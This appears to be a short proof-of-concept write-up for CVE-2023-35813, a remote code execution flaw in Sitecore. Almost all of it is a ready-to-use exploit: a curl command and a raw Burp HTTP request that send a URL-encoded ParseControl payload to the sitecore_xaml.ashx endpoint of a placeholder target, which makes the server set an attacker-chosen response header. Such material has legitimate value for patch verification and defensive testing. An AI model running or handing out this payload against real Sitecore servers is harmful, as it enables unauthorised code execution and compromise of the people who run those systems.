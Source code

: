 CVE: 2023-35813
CVSS Score: 9.8
Severity: Critical 

Here we are going to give command like return HTTP header  response back like -

My Request -

content-type: admin

Response should be -

content-type: admin

Remote Code Execution 



#poc

`curl --data '__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E")'http:// <target> /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index -v`


#poc
burp

```
POST /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index HTTP/2
Host:  <target> 
Content-Type: application/x-www-form-urlencoded
Content-Length: xxx


__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E
```
